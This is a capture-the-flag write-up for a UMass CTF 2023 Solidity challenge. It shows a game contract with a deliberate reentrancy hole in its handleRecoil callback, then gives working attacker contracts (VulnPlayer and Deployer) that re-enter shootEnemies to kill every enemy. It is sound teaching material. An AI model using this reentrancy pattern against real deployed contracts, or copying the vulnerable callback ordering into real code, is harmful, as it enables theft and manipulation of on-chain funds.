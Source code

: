 # CsGo but decentralised - blockchain

## Challenge

We receive a netcat connection and a few .sol files. The challenge uses the paradigmCTF infrastructure in which we first have to calculate a pow and then get our blockchain. For the calculation of the PoW, I just used the script provided by Zellic https://github.com/Zellic/example-ctf-challenge/blob/master/solve-pow.py. So let's take a look at the contracts:

The first one is the setup contract. It deploys the challenge contract and is solved if all 20 enemies are dead.

Setup
```
pragma solidity ^0.8.13;

import "./Chal.sol";

contract Setup {
    Chal public immutable TARGET;
    constructor() payable {
        TARGET = new Chal();
    }

    function isSolved() public view returns (bool) {
        for (uint i = 0; i < 20; i++) {
            Enemy enemy = TARGET.enemies(i);
            if (!enemy.isDead()) {
                return false;
            }
        }
        return true;
    }
}

```

The next one is the most important, the challenge. We can see that we have 20 enemies and mappings for guns & bullets. We also have functions for grabbing a gun and shooting enemies.

```
// SPDX-License-Identifier: UNLICENSED

// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./Enemy.sol";
import "./Player.sol";

contract Chal {
    Enemy[20] public enemies;

    uint private players;

    mapping (address => bool) guns;
    mapping (address => uint) bullets;

    constructor() {
        for (uint i = 0; i < 20; i++) {
            enemies[i] = new Enemy();
        }
    }

    function grabGun() public {
        require(guns[msg.sender] == false, "You have already equiped your gun");
        require(players <= 20, "The game can only have 20 players on each team!");

        guns[msg.sender] = true;
        bullets[msg.sender] = 1;
        players += 1;
    }

    function shootEnemies() public {
        require(guns[msg.sender] == true, "You have to pick up a gun");
        require(bullets[msg.sender] > 0, "You have ran out of bullets");

        for (uint i = 0; i < 20; i++) {
            if (enemies[i].isDead())
                continue;
            
            enemies[i].shoot();
            break;
        }

        require (bullets[msg.sender] - 1 < bullets[msg.sender], "Nice integer underflow");
        Player player = Player(msg.sender);
        player.handleRecoil();
        
        bullets[msg.sender] = 0;
    }
}
```

The next contract we have is the Enemy. It seems to need to be shot 20x to be dead.

```
// SPDX-License-Identifier: UNLICENSED
//
// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./openzeppelin/Ownable.sol";

contract Enemy is Ownable {
    uint public health = 20;

    function shoot() public onlyOwner {
        require (health > 0, "Trying to kill a dead entity");
        health = health - 1;
    }

    function isDead() public view returns (bool) {
        return health == 0;
    }
}
```

The last one we get is the player interface. It seems like we need to implement the handleRecoil() function ourselves.

```
// SPDX-License-Identifier: UNLICENSED
//
// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./openzeppelin/Ownable.sol";

interface Player {
    function handleRecoil() external;
}
```

## Solution

The challenge shows a very basic reentrancy vulnerability. We can exploit the handleRecoil() function which is called before decreasing the number of bullets we have to not only be able to shoot once per player but as often as we want. 

I first implemented a VulnPlayer contract which abuses the Reentrancy attack to be able to kill one enemy (could also be more)

```
// SPDX-License-Identifier: UNLICENSED
//
// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./openzeppelin/Ownable.sol";
import "./Chal.sol";
import "./Enemy.sol";

contract VulnPlayer {
    uint256 index;
    Chal challenge;

    constructor(address target, uint256 index_)
    {
        challenge = Chal(target);
        index = index_;
    }

    function attack() public
    {
        challenge.grabGun();
        require(!(challenge.enemies(index).isDead()));
        challenge.shootEnemies();
        require(challenge.enemies(index).isDead());
    }

    function handleRecoil() external
    {
        if (!(challenge.enemies(index).isDead()))
        {
            challenge.shootEnemies();
        }
    }
}
```

I first tried just creating one vuln player and make him kill all the enemies but i was getting into issues with gas usage, so i jsut resorted to creating one player per enemy. I used a deployer contract that when you call the function kill5Enemies() kills 5 enemies at a time (also helpful for debugging and checking if it worked, before burning a lot of gas). Then i just deployed this Deployer contract and called the kill5Enemies() function 4x, which made the isSolved in the setup contract switch to true.

```
// SPDX-License-Identifier: UNLICENSED
//
// Challenge author: Shanyu Thibaut JUNEJA (sin), UMass Cyber-Security Club.
// Challenge prepared for UMass CTF 2023
pragma solidity ^0.8.13;

import "./VulnPlayer.sol";

contract Deployer {
    uint256 public index;
    address target;

    constructor(address target_)
    {
        target = target_;
        index = 0;
    }

    function kill5Enemies() public
    {
        for(uint256 i = 0; i < 5; i++)
        {
            VulnPlayer player = new VulnPlayer(target, index);
            player.attack();
            index += 1;
        }
    }
}
```

